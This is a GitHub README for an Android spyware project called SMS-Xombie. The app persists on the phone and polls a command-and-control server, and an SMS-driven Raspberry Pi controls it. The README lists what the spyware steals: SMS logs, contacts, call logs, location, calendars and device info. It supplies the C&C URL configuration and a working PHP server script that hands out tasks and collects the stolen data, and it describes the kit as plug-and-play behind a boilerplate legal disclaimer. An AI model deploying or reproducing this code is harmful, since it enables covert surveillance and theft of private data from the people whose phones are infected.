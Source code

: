# SMS-Xombie ![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)
An Android spyware which interacts with a remote C&C server to exfiltrate phone data. Works with the latest SDK (29). Read the full article at https://artikrh.github.io/posts/building-android-spyware

### Table of Contents
  - [1. Overview](#1-overview)
  - [2. Implementation](#2-implementation)
      - [2.1. Android Application](#21-android-application)
      - [2.2. Xombie Platform](#22-xombie-platform)
  - [3. Capabilities](#3-capabilities)
  - [4. Usage](#4-usage)

## 1. Overview
The objective of this project is the deployment of an Android application which interacts with a remote Command & Control (C&C) server as a spyware. SMS Xombie also features a Raspberry Pi equipped with a Global System for Mobile (GSM) antenna for the sole purpose of receiving commands from a controller mobile phone. In short, the app package—considered as a unique "zombie" device—communicates with the server using HyperText Transfer Protocol (HTTP) GET to fetch commands through JavaScript Object Notation (JSON) and HTTP POST to send sensitive data such as SMS logs, contacts book or geographical position back to the server – which gets parsed from a Hypertext Preprocessor (PHP) script.

## 2. Implementation
### 2.1. Android Application
The app itself contains the following two (2) modules:
* Fetcher Service - performs key operations in the background and does not require user interaction;
* Autostart Receiver - a component triggered by the boot completion event to invoke the above service.

When the application gets installed and opened, it will register the receiver which will be invoked during Android boot time `RECEIVE_BOOT_COMPLETED` (after system services get fully loaded that is). The main function of this `BroadcastReceiver` is to schedule an `AlarmManager` to start the Fetcher service periodically, thus making it persistent in the device.  

Within the Fetcher service, there are several parts of code starting from `onStartCommand()` which:
* Checks or stores permanently a random generated Universal Unique Identifier (UUID) to uniquely identify the device;
* Validates device's network connection and remote server reachability.

Initially, a device GUID is generated to uniquely identify a "zombie". This ID is later used as a query parameter in its regular GET requests to an API end-point (PHP) which responds JSON encoded data, hence, `JsonObject()` is used along `HttpURLConnection` to interact with the API. The response is handled by the `onPostExecute()` function if the connection was successful and there is a network connectivity as per the `isConnected()` boolean method. 

![PoC](https://i.imgur.com/8nvBiZu.png)

If everything is correct, the mobile will respond to the task accordingly; whereas to send the data back, I used the Volley HTTP library which makes networking in Android apps easier.

![PoC](https://i.imgur.com/RqUMyry.png)

### 2.2. Xombie Platform

The application itself is a part of a larger system - the Xombie Platform - that we are going to elaborate next. The idea is simple, using a simple SMS message over the GSM network, we are able to control multiple devices that run the APK through the C&C server. The implementation however, is complex due to the following process:

1. Implementation of a Rasberry Pi device with a GSM shield attached to fetch SMS messages from a controller mobile phone over the GSM network;
2. Build of an interconnection mechanism between the API and physical device;
3. The ability to distinguishably process incoming traffic from the other mobile devices and respond with the appropiate content of that device.

For the larger picture, the above procedure is illustrated in the following scheme:

![architecture](https://i.imgur.com/uQySpSE.png)

Initially, the controller device sends a command through an SMS message to retrieve all of the mobile phones geographical location (`getGeoLocation` keyword). The GSM shield, which can operate in Quad 850/900/1800/1900 MHz frequency bands, uses a local SIM card to receive the message, forward the SMS content to the [smsXlib](https://github.com/ButrintKomoni/smsXlib) API, which then queues the task to the hosting server. Considering the mobile devices sends HTTP requests periodically to check whether there is something to do, in this case, they would immediately send relevant latitude and longitude values as a POST request (given that the user has given the application location service permission).

### 3. Capabilities

This app has the following capabilities:
* SMS dump (`smsdump`) - Dumps the entire message history;
* Contacts dump (`contactsDump`) - Dumps the entire contact list;
* Call Logs Dump (`callsDump`) - Dumps call entries;
* Geographical Location Fetch (`getGeoLocation`) - Retrieves device's current latitude and longitude values;
* Application List Dump (`appsDump`) - Lists user installed applications;
* Device Information Retrieval (`deviceInfo`) - Outputs device hardware and software information;
* Calendar Entries Dump (`calendarsDump`) - Dumps existing calendar entries;
* Service Termination (`kill`) - Terminates the running service until the next boot.

### 4. Usage
The program is meant to basically plug in and play; you only have to modify the C&C URL value in the `res/values/strings.xml` resource file:
```
<resources>
    <string name="app_name">Xombie</string>
    <string name="cc">http://192.168.0.14/cc.php</string>
    <string name="milliseconds">60000</string>
</resources>
```
The serving PHP script should be set up as below:
```
<?php

if ($_SERVER["REQUEST_METHOD"] == "GET") {
	if (isset($_GET["uuid"]) && !empty($_GET["uuid"])) {
		$id = sanitize($_GET["uuid"]);
		if (preg_match("/[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}/i", $id)) {
			// Available: kill, smsDump, contactsDump, callsDump, getGeoLocation, appsDump, deviceInfo, calendarsDump
			$json = [ 'uuid' => $id, 'task' => 'smsDump' ];
			header('Content-type:application/json;charset=utf-8');
			echo json_encode($json);
		}
		else {
			echo "Incorrect UUID format";
		}
	}
	else {
		echo "UUID not set";
	}
}
else if ($_SERVER["REQUEST_METHOD"] == "POST") {
	if (!isset($_POST['task']) || !isset($_POST['uuid']) || !isset($_POST['data'])) {
		die("Incorrect POST parameters");
	}

	$id = sanitize($_POST['uuid']);
	$task = sanitize($_POST['task']);
	$data = $_POST['data'];

	if (empty($id) || empty($task) || empty($data)) {
		die("Parameters cannot be empty");
	}

	$data = rawurldecode($data);
	$data = base64_decode($data);
	$data = gzdecode($data);

	file_put_contents('output.txt', $data);
}

function sanitize($data)
{
	$data = trim($data);
	$data = stripslashes($data);
	$data = htmlspecialchars($data);
	return $data;
}

?>
```

## Disclaimer
```
[!] Legal disclaimer: Usage of this application for attacking targets without
prior mutual consent is illegal. It is the end user's responsibility
to obey all applicable local, state and federal laws. I assume
no liability and are not responsible for any misuse or damage caused.
```
